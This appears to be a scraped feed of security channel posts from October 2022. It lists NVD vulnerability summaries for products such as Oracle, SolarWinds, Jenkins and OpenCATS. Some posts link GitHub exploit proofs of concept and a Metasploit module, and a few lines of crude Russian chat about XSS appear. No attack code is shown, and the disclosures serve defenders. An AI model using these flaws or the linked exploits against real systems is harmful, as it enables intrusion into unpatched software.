* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-1066

<blockquote>
‼ CVE-2022-1066 ‼

Aethon TUG Home Base Server versions prior to version 24 are affected by un unauthenticated attacker who can freely access hashed user credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2022-10-21`

* https://telegra.ph/file/c3fc166207451ab699211.jpg
* https://github.com/lus33rr/CVE-2022-27414

<blockquote>
​​CVE-2022-27414

Exploit of College Website v1.0 CMS - SQL injection

https://github.com/lus33rr/CVE-2022-27414

&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/c3fc166207451ab699211.jpg">
https://telegra.ph/file/c3fc166207451ab699211.jpg
</a>
</td></tr></table>

---

# hackgit
`2022-10-21`

* https://telegra.ph/file/431993088b667214952d4.jpg
* https://github.com/doyensec/oidc-ssrf

<blockquote>
​​oidc-ssrf

Evil OIDC server: the OpenID Configuration URL returns a 307 to cause SSRF.

https://github.com/doyensec/oidc-ssrf
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/431993088b667214952d4.jpg">
https://telegra.ph/file/431993088b667214952d4.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36957

<blockquote>
‼ CVE-2022-36957 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-38108

<blockquote>
‼ CVE-2022-38108 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with Orion admin-level account access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-36958

<blockquote>
‼ CVE-2022-36958 ‼

SolarWinds Platform was susceptible to the Deserialization of Untrusted Data. This vulnerability allows a remote adversary with valid access to SolarWinds Web Console to execute arbitrary commands.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42344

<blockquote>
‼ CVE-2022-42344 ‼

Adobe Commerce versions 2.4.3-p2 (and earlier), 2.3.7-p3 (and earlier) and 2.4.4 (and earlier) are affected by an improper input validation vulnerability. An authenticated attacker can trigger an insecure direct object reference in the `V1/customers/me` endpoint to achieve information exposure and privilege escalation.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42021

<blockquote>
‼ CVE-2022-42021 ‼

Best Student Result Management System v1.0 is vulnerable to SQL Injection via /upresult/upresult/notice-details.php?nid&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://portswigger.net/daily-swig/microsoft-office-online-server-open-to-ssrf-to-rce-exploit

<blockquote>
🗓️ Microsoft Office Online Server open to SSRF-to-RCE exploit 🗓️

Behavior functioning as intended, Microsoft reportedly says, and offers mitigation advice instead

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/microsoft-office-online-server-open-to-ssrf-to-rce-exploit">
https://portswigger.net/daily-swig/microsoft-office-online-server-open-to-ssrf-to-rce-exploit
</a>
<blockquote>
Behavior functioning as intended, Microsoft reportedly says, and offers mitigation advice instead
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-20`

<blockquote>
Open Source drop - Evil OIDC Server for SSRF testing from Doyensec. Helpful for testers and bug bounty.
https://www.reddit.com/r/netsec/comments/y910db/open_source_drop_evil_oidc_server_for_ssrf/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/y910db/open_source_drop_evil_oidc_server_for_ssrf/">
https://www.reddit.com/r/netsec/comments/y910db/open_source_drop_evil_oidc_server_for_ssrf/
</a>
<blockquote>
Posted in r/netsec by u/ds_at • 1 point and 0 comments
</blockquote>
</td></tr></table>

---

# hackgit
`2022-10-20`

* https://telegra.ph/file/a1a688ec7424611ae2288.jpg
* https://github.com/TaroballzChen/CVE-2022-41040-metasploit-ProxyNotShell

<blockquote>
​​CVE-2022-41040-metasploit-ProxyNotShell

the metasploit script(POC) about CVE-2022-41040. Microsoft Exchange are vulnerable to a server-side request forgery (SSRF) attack. An authenticated attacker can use the vulnerability to elevate privileges.

https://github.com/TaroballzChen/CVE-2022-41040-metasploit-ProxyNotShell
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/a1a688ec7424611ae2288.jpg">
https://telegra.ph/file/a1a688ec7424611ae2288.jpg
</a>
</td></tr></table>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42200

<blockquote>
‼ CVE-2022-42200 ‼

Simple Exam Reviewer Management System v1.0 is vulnerable to Stored Cross Site Scripting (XSS) via the Exam List.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-33231

<blockquote>
‼ CVE-2021-33231 ‼

Cross Site Scripting (XSS) vulnerability in New equipment page in EasyVista Service Manager 2018.1.181.1 allows remote attackers to run arbitrary code via the notes field.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2022-10-20`

* https://telegra.ph/file/bba25e3dbfe05d6669f6f.png
* https://github.com/crowsec-edtech/CVE-2022-22947

<blockquote>
​​CVE-2022-22947

Spring Cloud Gateway &lt; 3.0.7 &amp; &lt; 3.1.1 Code Injection (RCE)

Applications using Spring Cloud Gateway are vulnerable to a code injection attack when the Gateway Actuator endpoint is enabled, exposed and unsecured. A remote attacker could make a maliciously crafted request that could allow arbitrary remote execution on the remote host.

https://github.com/crowsec-edtech/CVE-2022-22947

&#35;cve
</blockquote>

<table><tr><td><b>→</b><a href="https://telegra.ph/file/bba25e3dbfe05d6669f6f.png">
https://telegra.ph/file/bba25e3dbfe05d6669f6f.png
</a>
</td></tr></table>

---

# ctfchat
`2022-10-20`

<blockquote>
Про xss школота не знает
</blockquote>

---

# ctfchat
`2022-10-20`

<blockquote>
Ясен хуй. XSS хуета, лолз заебись.
Совсем не похоже на хуету
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41358

<blockquote>
‼ CVE-2022-41358 ‼

A stored cross-site scripting (XSS) vulnerability in Garage Management System v1.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the categoriesName parameter in createCategories.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41617

<blockquote>
‼ CVE-2022-41617 ‼

In versions 16.1.x before 16.1.3.1, 15.1.x before 15.1.6.1, 14.1.x before 14.1.5.1, and 13.1.x before 13.1.5.1, When the Advanced WAF / ASM module is provisioned, an authenticated remote code execution vulnerability exists in the BIG-IP iControl REST interface.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-20`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41780

<blockquote>
‼ CVE-2022-41780 ‼

In F5OS-A version 1.x before 1.1.0 and F5OS-C version 1.x before 1.4.0, a directory traversal vulnerability exists in an undisclosed location of the F5OS CLI that allows an attacker to read arbitrary files.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# ctfchat
`2022-10-19`

<blockquote>
так же как xss ищут
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43019

<blockquote>
‼ CVE-2022-43019 ‼

OpenCATS v0.9.6 was discovered to contain a remote code execution (RCE) vulnerability via the getDataGridPager's ajax functionality.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43021

<blockquote>
‼ CVE-2022-43021 ‼

OpenCATS v0.9.6 was discovered to contain a SQL injection vulnerability via the entriesPerPage variable.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43014

<blockquote>
‼ CVE-2022-43014 ‼

OpenCATS v0.9.6 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the joborderID parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43018

<blockquote>
‼ CVE-2022-43018 ‼

OpenCATS v0.9.6 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the email parameter in the Check Email function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43020

<blockquote>
‼ CVE-2022-43020 ‼

OpenCATS v0.9.6 was discovered to contain a SQL injection vulnerability via the tag_id variable in the Tag update function.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43016

<blockquote>
‼ CVE-2022-43016 ‼

OpenCATS v0.9.6 was discovered to contain a reflected cross-site scripting (XSS) vulnerability via the callback component.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43430

<blockquote>
‼ CVE-2022-43430 ‼

Jenkins Compuware Topaz for Total Test Plugin 2.4.8 and earlier does not configure its XML parser to prevent XML external entity (XXE) attacks.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43420

<blockquote>
‼ CVE-2022-43420 ‼

Jenkins Contrast Continuous Application Security Plugin 3.9 and earlier does not escape data returned from the Contrast service when generating a report, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to control or modify Contrast service API responses.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43409

<blockquote>
‼ CVE-2022-43409 ‼

Jenkins Pipeline: Supporting APIs Plugin 838.va_3a_087b_4055b and earlier does not sanitize or properly encode URLs of hyperlinks sending POST requests in build logs, resulting in a stored cross-site scripting (XSS) vulnerability exploitable by attackers able to create Pipelines.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39301

<blockquote>
‼ CVE-2022-39301 ‼

sra-admin is a background rights management system that separates the front and back end. sra-admin version 1.1.1 has a storage cross-site scripting (XSS) vulnerability. After logging into the sra-admin background, an attacker can upload an html page containing xss attack code in &quot;Personal Center&quot; - &quot;Profile Picture Upload&quot; allowing theft of the user's personal information. This issue has been patched in 1.1.2. There are no known workarounds.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43185

<blockquote>
‼ CVE-2022-43185 ‼

A stored cross-site scripting (XSS) vulnerability in the Configuration/Holidays module of Rukovoditel v3.2.1 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Name parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-23734

<blockquote>
‼ CVE-2022-23734 ‼

A deserialization of untrusted data vulnerability was identified in GitHub Enterprise Server that could potentially lead to remote code execution on the SVNBridge. To exploit this vulnerability, an attacker would need to gain access via a server-side request forgery (SSRF) that would let an attacker control the data being deserialized. This vulnerability affected all versions of GitHub Enterprise Server prior to v3.6 and was fixed in versions 3.5.3, 3.4.6, 3.3.11, and 3.2.16. This vulnerability was reported via the GitHub Bug Bounty program.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# sysadm_in_channel
`2022-10-19`

<blockquote>
How We Managed to Abuse a Custom Role User Using CSTI and Stored XSS in Azure Fabric Explorer

https://orca.security/resources/blog/fabrixss-vulnerability-azure-fabric-explorer/
</blockquote>

<table><tr><td><b>→</b><a href="https://orca.security/resources/blog/fabrixss-vulnerability-azure-fabric-explorer/">
https://orca.security/resources/blog/fabrixss-vulnerability-azure-fabric-explorer/
</a>
<blockquote>
The Orca Research Pod has discovered FabriXss a vulnerability in Azure Service Fabric Explorer that allows attackers to gain full Administrator permissions.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-20016

<blockquote>
‼ CVE-2016-20016 ‼

MVPower CCTV DVR models, including TV-7104HE 1.8.4 115215B9 and TV7108HE, contain a web shell that is accessible via a /shell URI. A remote unauthenticated attacker can execute arbitrary operating system commands as root. This vulnerability has also been referred to as the &quot;JAWS webserver RCE&quot; because of the easily identifying HTTP response server field. Other firmware versions, at least from 2014 through 2019, can be affected. This was exploited in the wild in 2017 through 2022.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-19`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42218

<blockquote>
‼ CVE-2022-42218 ‼

Open Source SACCO Management System v1.0 vulnerable to SQL Injection via /sacco_shield/manage_loan.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39428

<blockquote>
‼ CVE-2022-39428 ‼

Vulnerability in the Oracle Web Applications Desktop Integrator product of Oracle E-Business Suite (component: Upload). Supported versions that are affected are 12.2.3-12.2.11. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle Web Applications Desktop Integrator. Successful attacks of this vulnerability can result in takeover of Oracle Web Applications Desktop Integrator. CVSS 3.1 Base Score 9.8 (Confidentiality, Integrity and Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42114

<blockquote>
‼ CVE-2022-42114 ‼

A Cross-site scripting (XSS) vulnerability in the Role module's edit role assignees page in Liferay Portal 7.4.0 through 7.4.3.36, and Liferay DXP 7.4 before update 37 allows remote attackers to inject arbitrary web script or HTML.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39426

<blockquote>
‼ CVE-2022-39426 ‼

Vulnerability in the Oracle VM VirtualBox product of Oracle Virtualization (component: Core). Supported versions that are affected are Prior to 6.1.40. Difficult to exploit vulnerability allows unauthenticated attacker with network access via VRDP to compromise Oracle VM VirtualBox. Successful attacks of this vulnerability can result in takeover of Oracle VM VirtualBox. CVSS 3.1 Base Score 8.1 (Confidentiality, Integrity and Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42112

<blockquote>
‼ CVE-2022-42112 ‼

A Cross-site scripting (XSS) vulnerability in the Portal Search module's Sort widget in Liferay Portal 7.2.0 through 7.4.3.24, and Liferay DXP 7.2 before fix pack 19, 7.3 before update 5, and DXP 7.4 before update 25 allows remote attackers to inject arbitrary web script or HTML via a crafted payload.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21602

<blockquote>
‼ CVE-2022-21602 ‼

Vulnerability in the PeopleSoft Enterprise PeopleTools product of Oracle PeopleSoft (component: Portal). Supported versions that are affected are 8.58, 8.59 and 8.60. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise PeopleSoft Enterprise PeopleTools. Successful attacks of this vulnerability can result in unauthorized read access to a subset of PeopleSoft Enterprise PeopleTools accessible data. CVSS 3.1 Base Score 5.3 (Confidentiality impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39424

<blockquote>
‼ CVE-2022-39424 ‼

Vulnerability in the Oracle VM VirtualBox product of Oracle Virtualization (component: Core). Supported versions that are affected are Prior to 6.1.40. Difficult to exploit vulnerability allows unauthenticated attacker with network access via VRDP to compromise Oracle VM VirtualBox. Successful attacks of this vulnerability can result in takeover of Oracle VM VirtualBox. CVSS 3.1 Base Score 8.1 (Confidentiality, Integrity and Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21628

<blockquote>
‼ CVE-2022-21628 ‼

Vulnerability in the Oracle Java SE, Oracle GraalVM Enterprise Edition product of Oracle Java SE (component: Lightweight HTTP Server). Supported versions that are affected are Oracle Java SE: 8u341, 8u345-perf, 11.0.16.1, 17.0.4.1, 19; Oracle GraalVM Enterprise Edition: 20.3.7, 21.3.3 and 22.2.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle Java SE, Oracle GraalVM Enterprise Edition. Successful attacks of this vulnerability can result in unauthorized ability to cause a partial denial of service (partial DOS) of Oracle Java SE, Oracle GraalVM Enterprise Edition. Note: This vulnerability applies to Java deployments, typically in clients running sandboxed Java Web Start applications or sandboxed Java applets, that load and run untrusted code (e.g., code that comes from the internet) and rely on the Java sandbox for security. This vulnerability does not apply to Java deployments, typically in servers, that load and run only trusted code (e.g., code installed by an administrator). CVSS 3.1 Base Score 5.3 (Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21630

<blockquote>
‼ CVE-2022-21630 ‼

Vulnerability in the JD Edwards EnterpriseOne Tools product of Oracle JD Edwards (component: Web Runtime SEC). Supported versions that are affected are 9.2.6.4 and prior. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise JD Edwards EnterpriseOne Tools. Successful attacks require human interaction from a person other than the attacker and while the vulnerability is in JD Edwards EnterpriseOne Tools, attacks may significantly impact additional products (scope change). Successful attacks of this vulnerability can result in unauthorized update, insert or delete access to some of JD Edwards EnterpriseOne Tools accessible data as well as unauthorized read access to a subset of JD Edwards EnterpriseOne Tools accessible data. CVSS 3.1 Base Score 6.1 (Confidentiality and Integrity impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21614

<blockquote>
‼ CVE-2022-21614 ‼

Vulnerability in the Oracle Enterprise Data Quality product of Oracle Fusion Middleware (component: Dashboard). Supported versions that are affected are 12.2.1.3.0 and 12.2.1.4.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle Enterprise Data Quality. Successful attacks of this vulnerability can result in unauthorized access to critical data or complete access to all Oracle Enterprise Data Quality accessible data. CVSS 3.1 Base Score 7.5 (Confidentiality impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21618

<blockquote>
‼ CVE-2022-21618 ‼

Vulnerability in the Oracle Java SE, Oracle GraalVM Enterprise Edition product of Oracle Java SE (component: JGSS). Supported versions that are affected are Oracle Java SE: 17.0.4.1, 19; Oracle GraalVM Enterprise Edition: 21.3.3 and 22.2.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via Kerberos to compromise Oracle Java SE, Oracle GraalVM Enterprise Edition. Successful attacks of this vulnerability can result in unauthorized update, insert or delete access to some of Oracle Java SE, Oracle GraalVM Enterprise Edition accessible data. Note: This vulnerability applies to Java deployments, typically in clients running sandboxed Java Web Start applications or sandboxed Java applets, that load and run untrusted code (e.g., code that comes from the internet) and rely on the Java sandbox for security. This vulnerability can also be exploited by using APIs in the specified Component, e.g., through a web service which supplies data to the APIs. CVSS 3.1 Base Score 5.3 (Integrity impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21631

<blockquote>
‼ CVE-2022-21631 ‼

Vulnerability in the JD Edwards EnterpriseOne Tools product of Oracle JD Edwards (component: Design Tools SEC). Supported versions that are affected are 9.2.6.4 and prior. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise JD Edwards EnterpriseOne Tools. Successful attacks require human interaction from a person other than the attacker and while the vulnerability is in JD Edwards EnterpriseOne Tools, attacks may significantly impact additional products (scope change). Successful attacks of this vulnerability can result in unauthorized update, insert or delete access to some of JD Edwards EnterpriseOne Tools accessible data as well as unauthorized read access to a subset of JD Edwards EnterpriseOne Tools accessible data. CVSS 3.1 Base Score 6.1 (Confidentiality and Integrity impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21587

<blockquote>
‼ CVE-2022-21587 ‼

Vulnerability in the Oracle Web Applications Desktop Integrator product of Oracle E-Business Suite (component: Upload). Supported versions that are affected are 12.2.3-12.2.11. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle Web Applications Desktop Integrator. Successful attacks of this vulnerability can result in takeover of Oracle Web Applications Desktop Integrator. CVSS 3.1 Base Score 9.8 (Confidentiality, Integrity and Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21622

<blockquote>
‼ CVE-2022-21622 ‼

Vulnerability in the Oracle SOA Suite product of Oracle Fusion Middleware (component: Adapters). Supported versions that are affected are 12.2.1.3.0 and 12.2.1.4.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Oracle SOA Suite. Successful attacks of this vulnerability can result in unauthorized creation, deletion or modification access to critical data or all Oracle SOA Suite accessible data. CVSS 3.1 Base Score 7.5 (Integrity impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21634

<blockquote>
‼ CVE-2022-21634 ‼

Vulnerability in the Oracle GraalVM Enterprise Edition product of Oracle Java SE (component: LLVM Interpreter). Supported versions that are affected are Oracle GraalVM Enterprise Edition: 20.3.7, 21.3.3 and 22.2.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via multiple protocols to compromise Oracle GraalVM Enterprise Edition. Successful attacks of this vulnerability can result in unauthorized ability to cause a hang or frequently repeatable crash (complete DOS) of Oracle GraalVM Enterprise Edition. CVSS 3.1 Base Score 7.5 (Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21601

<blockquote>
‼ CVE-2022-21601 ‼

Vulnerability in the Oracle Communications Billing and Revenue Management product of Oracle Communications Applications (component: Connection Manager). Supported versions that are affected are 12.0.0.4.0-12.0.0.7.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via TCP to compromise Oracle Communications Billing and Revenue Management. Successful attacks of this vulnerability can result in unauthorized read access to a subset of Oracle Communications Billing and Revenue Management accessible data and unauthorized ability to cause a partial denial of service (partial DOS) of Oracle Communications Billing and Revenue Management. CVSS 3.1 Base Score 6.5 (Confidentiality and Availability impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:L).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-21623

<blockquote>
‼ CVE-2022-21623 ‼

Vulnerability in the Enterprise Manager Base Platform product of Oracle Enterprise Manager (component: Application Config Console). Supported versions that are affected are 13.4.0.0 and 13.5.0.0. Easily exploitable vulnerability allows unauthenticated attacker with network access via HTTP to compromise Enterprise Manager Base Platform. Successful attacks of this vulnerability can result in unauthorized creation, deletion or modification access to critical data or all Enterprise Manager Base Platform accessible data. CVSS 3.1 Base Score 7.5 (Integrity impacts). CVSS Vector: (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:N).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-33873

<blockquote>
‼ CVE-2022-33873 ‼

An improper neutralization of special elements used in an OS Command ('OS Command Injection') vulnerabilities [CWE-78] in Console login components of FortiTester 2.3.0 through 3.9.1, 4.0.0 through 4.2.0, 7.0.0 through 7.1.0 may allow an unauthenticated attacker to execute arbitrary command in the underlying shell.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-35846

<blockquote>
‼ CVE-2022-35846 ‼

An improper restriction of excessive authentication attempts vulnerability [CWE-307] in FortiTester Telnet port 2.3.0 through 3.9.1, 4.0.0 through 4.2.0, 7.0.0 through 7.1.0 may allow an unauthenticated attacker to guess the credentials of an admin user via a brute force attack.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41544

<blockquote>
‼ CVE-2022-41544 ‼

GetSimple CMS v3.3.16 was discovered to contain a remote code execution (RCE) vulnerability via the edited_file parameter in admin/theme-edit.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41547

<blockquote>
‼ CVE-2022-41547 ‼

Mobile Security Framework (MobSF) v0.9.2 and below was discovered to contain a local file inclusion (LFI) vulnerability in the StaticAnalyzer/views.py script. This vulnerability allows attackers to read arbitrary files via a crafted HTTP request.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42202

<blockquote>
‼ CVE-2022-42202 ‼

TP-Link TL-WR841N 8.0 4.17.16 Build 120201 Rel.54750n is vulnerable to Cross Site Scripting (XSS).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39055

<blockquote>
‼ CVE-2022-39055 ‼

RAVA certificate validation system has inadequate filtering for URL parameter. An unauthenticated remote attacker can perform SSRF attack to discover internal network topology base on query response.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-18`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39058

<blockquote>
‼ CVE-2022-39058 ‼

RAVA certification validation system has a path traversal vulnerability. An unauthenticated remote attacker can exploit this vulnerability to bypass authentication and access arbitrary system files.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# hackgit
`2022-10-18`

* https://telegra.ph/file/d732335f2f549e9a5c582.jpg
